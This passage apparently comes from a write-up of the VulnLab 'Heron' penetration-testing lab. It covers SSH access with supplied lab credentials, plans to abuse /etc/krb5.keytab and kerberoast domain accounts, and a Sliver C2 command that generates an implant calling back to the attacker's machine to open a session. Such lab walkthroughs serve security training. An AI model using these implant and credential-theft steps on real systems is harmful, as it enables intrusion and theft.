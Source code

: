 We'll have to start from SSH on the domain-joined Linux machine, as this seems to be the only port available. I also made sure to confirm this as the case with `rustscan`, which you can find [here](https://github.com/RustScan/RustScan). It's a modernized version of NMAP, and is used for discovering ports at an increased pace.

Luckily enough I gave a quick peek at the Wiki page for the machine and it seems that this is an assumed-breach scenario. Heron Corp has given us credentials from which to use for our pen-test.

```
pentest:Heron123!

└─$ ssh pentest@10.10.128.118
......
Last login: Fri Jun  7 10:34:38 2024 from 10.8.0.101
pentest@frajmp:~$
```

# SOCKS Proxy to the DC

So as explained earlier, the first part of this chain is looking through the domain-joined Linux machine and understanding if there are any ways to elevate to root. Given that the first machine of this chain is through the Linux machine, I'm assuming that once we obtain root access we should have the ability to use the machine account and the `/etc/krb5.keytab` file (containing the machine account's NT hash) to compromise the DC.

However after a bit of file enumeration, you'll notice that there isn't really much for you to exploit initially. We don't have access to any of the users (nor are there any binaries for us to exploit as the `pentest` user, however there are two domain users in the `/home` directory which are `svc-web-accounting` and `svc-web-accounting-d`. Since we have these users, we can try to kerberoast/ASREProast to try and decrypt their plaintext passwords. In order to even do this though, we'll need to interact with the DC.

Since we don't have access to the DC directly from our local machine, we can use a proxy determine if the jumpbox is able to connect to it due to it being within the scope of the firewall (or at least there seems to be a firewall active). We'll need to start up a SOCKS proxy on the jumpbox in order to do this, and then execute our commands through the proxy. I usually opt to use `proxychains` for this, though you are free to use other tools that accomplish the same result.

I'll start up a [Sliver C2](https://github.com/BishopFox/sliver) server on our local Kali machine, I'm mainly doing this because Sliver has a built in SOCKS proxy command that should start a proxy on a given port easily. Firstly, we'll need to create an implant and curl it to the jumpbox.

```
sliver > generate --mtls (KALI IP) --os linux --arch amd64 --skip-symbols --save /home/daz/tech/vl/heron/writeup/ --name heron_lin
```

![](/images/vulnlab/heron-vl/b.png)

```
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1

[*] Session 39b2e695 heron_lin - 10.10.128.118:37554 (frajmp.heron.vl) - linux/amd64 - Thu, 27 Jun 2024 23:34:54 EDT
```
